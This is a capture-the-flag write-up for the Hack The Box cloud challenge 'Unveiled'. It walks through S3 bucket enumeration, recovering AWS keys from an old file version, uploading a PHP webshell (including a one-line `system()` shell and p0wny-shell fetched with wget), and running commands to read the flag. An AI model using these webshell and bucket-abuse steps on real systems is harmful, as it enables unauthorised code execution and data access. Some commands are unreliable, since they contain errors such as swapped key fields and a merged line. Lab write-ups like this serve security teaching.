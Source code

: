 # Unveiled (Cloud Challenge)



## Challenge Description
Category: Cloud

Difficulty: Easy

Points: 1000

N/A

## Strategy
The premise revolving around this challenge was to upload a PHP webshell to an openly-accessible AWS S3 Bucket and obtain RCE for the flag.

Connect to the HTB VPN via `sudo openvpn <vpntoken>.ovpn`
Add `unveiled.htb` to your `/etc/hosts` file for local DNS resolution.

Running nmap to the target:
```text
Nmap scan report for unveiled.htb (10.129.253.25)
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Travel to Planet Red
|_http-server-header: Apache/2.4.41
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Browsing to the website at `http://unveiled.htb` and viewing the source (CTRL + U), we discover a hidden comment detailing another virtual host of `s3.unveiled.htb` which we add to our `/etc/hosts` file and a username of `galen` as shown below.
![unveiled_1](images/unveiled_1.png)
```text
<!-- Last updated Tue 20 Jun 2023 02:39:53 PM by galen-->
<!-- Last updated Tue 20 Jun 2023 02:39:53 PM by galen-->
<script src="http://s3.unveiled.htb/unveiled-backups/main.js"/>
```

AWS Endpoint Function Workaround (Added https://github.com/aws/aws-cli/pull/8006/commits/e34caf506696db97c24d40da5a45e3e5b3bc5cb2)
Make sure you are running the latest version of `aws-cli` so you don't have to type the `--endpoint-url` every time or use the following:
```sh
$ export AWS_ENDPOINT_URL=http://s3.unveiled.htb
function aws() {
	export AWS_DEFAULT_OUTPUT=yaml 
	if [ -z "$AWS_ENDPOINT_URL" ]
	then
		command aws "$@"
	else
		command aws "$@" --endpoint-url "$AWS_ENDPOINT_URL"
	fi
}
```

List buckets accessible:
```sh
$ aws s3api list-buckets
Buckets:
- CreationDate: '2023-07-14T21:12:16+00:00'
  Name: unveiled-backups
- CreationDate: '2023-07-14T21:12:17+00:00'
  Name: website-assets
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a

$ aws s3api list-objects-v2 --bucket 'unveiled-backups'
Contents:
- ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
  Key: index.html
  LastModified: '2023-07-14T21:12:18+00:00'
  Size: 4495
  StorageClass: STANDARD
- ETag: '"9c9e9d85b28ce6bbbba93e0860389c65"'
  Key: main.tf
  LastModified: '2023-07-14T21:12:19+00:00'
  Size: 1107
  StorageClass: STANDARD

$ aws s3 ls s3://unveiled-backups/
2023-07-14 17:12:18       4495 index.html
2023-07-14 17:12:19       1107 main.tf
```

Download Files:
```sh
$ aws s3 cp --recursive s3://unveiled-backups .
or ..
$ aws s3 sync s3://unveiled-backups/ .
download: s3://unveiled-backups/main.tf to ./main.tf
download: s3://unveiled-backups/index.html to ./index.html
```

List Bucket Access Control List (ACL):
```sh
$ aws s3api get-bucket-acl --bucket unveiled-backups
Grants:
- Grantee:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
    Type: CanonicalUser
  Permission: FULL_CONTROL
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
```

Unintended solution (upload a webshell without creds):
```sh
$ wget https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
$ aws s3api put-object --bucket website-assets --key shell.php --body shell.php
or ...
$ aws s3 cp shell.php s3://website-assets
```

Get AWS S3 Bucket Version Control History:
```sh
$ aws s3api list-object-versions --bucket unveiled-backups
Versions:
- ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
  IsLatest: true
  Key: index.html
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 4495
  StorageClass: STANDARD
  VersionId: 00c4f891-631b-48a8-a958-e01b196af4f7
- ETag: '"3596df2e55e9786e11a09c32ae21c33c"'
  IsLatest: false
  Key: index.html
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 4438
  StorageClass: STANDARD
  VersionId: ab1f42c7-0c8d-4a5b-8d70-05d95b71c937
- ETag: '"9c9e9d85b28ce6bbbba93e0860389c65"'
  IsLatest: true
  Key: main.tf
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 1107
  StorageClass: STANDARD
  VersionId: e760e5b7-cde9-485e-9a6b-de15e1694886
- ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
  IsLatest: false
  Key: main.tf
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 1167aws s3api get-object --bucket unveiled-backups --key index.html --version-id 00c4f891-631b-48a8-a958-e01b196af4f7 index.html.old
```

Get Old Revision of Files:
```sh
$ aws s3api get-object --bucket unveiled-backups --key main.tf --version-id 2660dd61-14c4-47e4-ad0e-931c14da88a9 main.tf.old
AcceptRanges: bytes
ContentLength: 1167
ContentType: binary/octet-stream
ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
LastModified: '2023-07-14T22:32:50+00:00'
Metadata: {}
VersionId: 2660dd61-14c4-47e4-ad0e-931c14da88a9

$ aws s3api get-object --bucket unveiled-backups --key index.html --version-id 00c4f891-631b-48a8-a958-e01b196af4f7 index.html.old
AcceptRanges: bytes
ContentLength: 4495
ContentType: text/html
ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
LastModified: '2023-07-14T22:32:50+00:00'
Metadata: {}
VersionId: 00c4f891-631b-48a8-a958-e01b196af4f7

$ head ./unveiled-backups-old/main.tf
variable "aws_access_key"{
  default = "AKIA6CFMOGFLAHOPQTMA"
}
variable "aws_secret_key"{
  default = "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"
}
```

Configure AWS-CLI with new AWS secrets and check if we can access the private S3 bucket of `website-assets`.
```sh
$ aws configure
AWS Access Key ID: tLK3S3CNsXfj0mjPsIH2iCh5odYHMPDwSVxn7CB5
AWS Secret Access Key: AKIA6CFMOGFLAHOPQTMA
Default region name [us-east-1]:
Default output format [None]:

$ aws sts get-caller-identity
Account: '683633011377'
Arn: arn:aws:iam::683633011377:user/will
UserId: AKIAIOSFODNN7DXV3G29

$ aws s3 ls s3://website-assets
2023-07-14 18:32:49      91790 background.jpg
2023-07-14 18:32:49       4372 index.html
```

Upload webshell with new access keys:
```sh
$ wget https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
or ...
$ echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php

$ aws s3api put-object --bucket website-assets --key shell.php --body shell.php
or ...
$ aws s3 cp shell.php s3://website-assets
```

Access webshell:
```sh
$ firefox http://unveiled.htb/shell.php
```
Can also fetch the flag via curl:
```sh
curl -s -X POST 'http://unveiled.htb/shell.php?feature=shell' --data 'cmd=cat /var/www/flag.txt' | jq -r '.stdout'|base64 -d
HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}
```

Flag: `HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}`
